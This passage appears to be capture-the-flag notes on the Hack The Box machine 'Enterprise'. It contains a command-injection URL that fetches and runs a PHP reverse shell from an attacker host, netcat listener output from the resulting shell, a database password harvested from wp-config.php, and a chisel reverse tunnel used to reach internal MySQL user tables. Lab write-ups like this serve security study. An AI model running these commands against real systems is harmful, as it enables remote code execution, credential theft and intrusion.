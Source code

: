 revershell:

http://enterprise.htb/?cmd=curl%20http://10.10.14.27/rv.php%20|%20php

```bash
nc -lvnp  9000
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 10.10.10.61.
Ncat: Connection from 10.10.10.61:60734.
Linux b8319d86d21e 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 GNU/Linux
 01:34:06 up 2 days,  2:50,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
```

# Reverse Tunnle for mysql

```bash
cat wp-config.php | grep -i "db\|pass"
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
/** MySQL database password */
define('DB_PASSWORD', 'NCC-1701E');
define('DB_HOST', 'mysql');
define('DB_CHARSET', 'utf8');
define('DB_COLLATE', '');
```

```bash
8001->172.17.0.2:3306

./chisel  server --port 8000 -v  --reverse

./chisel client 10.10.14.27:8000 R:8001:172.17.0.2:3306 &
```

```bash
mysql -u root -h 127.0.0.1 -P 8001 -p
```

```mysql
MySQL [joomladb]> describe edz2g_users;
+---------------+---------------+------+-----+---------------------+----------------+
| Field         | Type          | Null | Key | Default             | Extra          |
+---------------+---------------+------+-----+---------------------+----------------+
| id            | int(11)       | NO   | PRI | NULL                | auto_increment |
| name          | varchar(400)  | NO   | MUL |                     |                |
| username      | varchar(150)  | NO   | MUL |                     |                |
| email         | varchar(100)  | NO   | MUL |                     |                |
| password      | varchar(100)  | NO   |     |                     |                |
```
